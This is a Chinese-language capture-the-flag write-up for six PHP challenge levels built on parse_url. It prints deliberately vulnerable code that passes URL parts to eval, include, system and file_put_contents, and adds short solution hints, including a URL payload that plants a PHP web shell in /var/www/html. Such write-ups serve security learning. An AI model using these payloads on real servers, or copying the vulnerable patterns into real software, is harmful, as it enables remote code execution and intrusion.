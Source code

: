 ## 2023/5/12 #parse_url
### 第一关
```php
<?php  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2023-05-10 09:52:06  
# @Last Modified by:   h1xa  
# @Last Modified time: 2023-05-10 10:58:34  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
*/  
  
$data = parse_url($_GET['u']);   
eval($data['host']);
```

![](attachments/Pasted%20image%2020230515152602.png)

### 第二关
```php
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2023-05-10 09:52:06  
# @Last Modified by:   h1xa  
# @Last Modified time: 2023-05-12 13:25:53  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
$data = parse_url($_GET['u']);  
  
include $data['host'].$data['path'];
```

大概思路是构造出php:/input   但是似乎hackbar在post部分没有参数头的时候不传，就只能burp来做

![](attachments/Pasted%20image%2020230515153444.png)

### 第三关
```php
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2023-05-10 09:52:06  
# @Last Modified by:   h1xa  
# @Last Modified time: 2023-05-12 13:29:18  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
  
*/  
  
$data = parse_url($_GET['u']);  
  
include $data['scheme'].$data['path'];
```

一样去构造php://input

![](attachments/Pasted%20image%2020230515154517.png)

### 第四关
```php
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2023-05-10 09:52:06  
# @Last Modified by:   h1xa  
# @Last Modified time: 2023-05-12 13:29:35  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
*/  
  
$data = parse_url($_GET['u']);  
  
system($data['host']);
```

考命令执行

![](attachments/Pasted%20image%2020230515154944.png)

### 第五关
```php
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2023-05-10 09:52:06  
# @Last Modified by:   h1xa  
# @Last Modified time: 2023-05-12 13:29:38  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
*/  
  
extract(parse_url($_GET['u']));  
include $$$$$$host;
```

url相关的有8个，足够参数套娃了，不过用path的话/会有一些影响`#`需要编码 `user://pass:fragment@scheme/?php://input#query`

![](attachments/Pasted%20image%2020230515160430.png)


### 第六关
```php
<?php  
  
/*  
# -*- coding: utf-8 -*-  
# @Author: h1xa  
# @Date:   2023-05-10 09:52:06  
# @Last Modified by:   h1xa  
# @Last Modified time: 2023-05-12 13:29:18  
# @email: h1xa@ctfer.com  
# @link: https://ctfer.com  
*/  
  
$data = parse_url($_GET['u']);  
  
file_put_contents($data['path'], $data['host']);
```
短标签没办法绕过

`http://<script language='php'>eval($_REQUEST[_]);phpinfo();/var/www/html/shell.php`

![](attachments/Pasted%20image%2020230515162159.png)